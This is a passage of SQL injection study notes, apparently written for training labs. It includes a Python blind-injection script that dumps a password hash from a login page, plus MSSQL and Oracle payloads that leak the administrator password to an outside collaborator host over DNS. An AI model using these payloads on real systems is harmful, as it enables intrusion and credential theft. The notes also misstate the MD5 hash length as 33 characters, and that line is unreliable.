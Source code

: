 ### Dump tables

It can also be done with sqlmap or manually with a custom script. In that case the script is dumping MD5 hashes from password field.

```
import requests
chars = "0123456789abcdef"
def GetSQL(i,c):
    return "admin' and substr(password,%s,1) = '%s' -- -" % (i,c)
for i in range(1,33):
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection,'password':"randompassword"}
        r = requests.post('http://10.10.10.73/login.php',data=payload)
        if 'Wrong identification' in r.text:
            print(c,end='',flush=True)
            break
print()
```

> **Note:** MD5 hash are hexadecimal with 33 character length.

* [https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md)


## Using out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example but **do it asynchronously**. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie.

So we can do DNS queries to exfiltrate data.

* _Examaple of mssql_

```
'; exec master..xp_dirtree '//burpcollaborator.net/a'--

'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.burpcollaborator.net/a"')--
```

* _Example of OracleDB_

```
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT 'a')||'.collaborator.com/"> %remote;]>'),'/l') FROM dual-- -
```

# SQL injection in different contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database. 
